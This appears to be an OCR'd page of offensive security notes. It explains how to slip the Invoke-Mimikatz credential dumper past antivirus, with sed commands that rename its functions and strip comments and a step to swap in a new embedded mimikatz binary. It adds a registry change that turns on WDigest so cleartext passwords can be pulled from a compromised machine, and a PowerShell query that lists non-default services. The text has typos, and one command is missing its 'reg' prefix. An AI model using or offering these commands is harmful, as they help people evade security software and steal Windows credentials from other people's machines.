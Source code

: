 Perform antivirus activities bypass AV machines

# Invoke-Mimikatz.ps1 (obfuscated functions)

- sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
- sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
- sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
- sed -i -e 's/ArgumentPtr/Obf/g' Invoke-Mimikatz.ps1
- sed -i -e 's/CallDllMainSC1/ObfSC1/'g Invoke-Mimikatz.ps1
- sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

#-# On Windows

Replace the $PESBytes64 with a new one of mimikatz
Lavereging the Steroids-Module for obfuscation


# Subverting mimikatz patch (on compromise machine to extract clear text password)

- add HKLM\SYSTEM\CurrentControlSet\Conttol\SecurityProviders\WDigest /v UserLogonCredential /t REG_DWORD /d 1 /f

# Get NON default Services
$NonDefaultServices = Get-wmiobject win32_service | where { $_.Caption -notmatch "Windows" -and $_.PathName -notmatch "Windows" -and $_.PathName -notmatch "policyhost.exe" -and $_.Name -ne "LSM" -and $_.PathName -notmatch "OSE.EXE" -and $_.PathName -notmatch "OSPPSVC.EXE" -and $_.PathName -notmatch "Microsoft Security Client" }
